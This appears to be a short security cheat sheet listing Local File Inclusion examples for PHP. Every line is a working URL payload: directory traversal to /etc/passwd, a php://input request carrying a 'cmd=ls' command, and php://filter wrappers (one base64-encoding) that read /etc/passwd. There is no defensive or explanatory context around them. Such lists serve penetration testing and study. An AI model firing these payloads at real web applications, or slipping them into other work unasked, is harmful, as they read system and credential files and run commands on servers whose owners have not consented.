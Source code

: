 # Local File Inclusion examples

## PHP

- `/script.php?page=../../../../../../../../etc/passwd`
- `/fi/?page=php://input&cmd=ls`
- `vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`: Then need to b64-decode the response
- `?page=php://filter/resource=/etc/passwd`
